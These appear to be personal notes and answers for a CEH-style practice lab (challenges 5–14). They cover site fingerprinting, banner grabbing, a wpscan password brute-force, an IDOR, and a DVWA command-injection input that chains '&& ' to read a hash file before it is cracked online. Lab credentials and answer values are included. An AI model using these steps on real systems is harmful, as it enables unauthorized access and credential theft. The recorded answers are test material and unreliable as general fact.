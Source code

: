 Challenge 5

using wig
`wig www.cehorg.com`

WordPress

Challenge 6

Telnet  <ip> <port> 

then right GET / HTTP/1.0

Microsoft-IIS/10.0

Challenge 7

OWASP-zap is used 

6

Challenge 8

ldb [eccouncil.org](http://eccouncil.org/)

cloudflare

Challenge 9
`wpscan --url http://cehorg.com/wp-login.php -U adam -P <password.txt>`

orange1234

Challenge 10

by using this username and password (Jason/welcome) I performed IDOR 

Linda

Challenge 11

![{577BE4D0-0842-44A2-844E-38634615A0D1}.png](Practice%20Engage/577BE4D0-0842-44A2-844E-38634615A0D1.png)

9

Challenge 12

Challenge 13

at dvwa site on selection command injection

127.0.0.1 && C:\wamp64\www\DVWA\hackable\uploads\Hash.txt

got the hash

[https://hashes.com/en/decrypt/hash](https://hashes.com/en/decrypt/hash) 

Cr@ck3d

Challenge 14
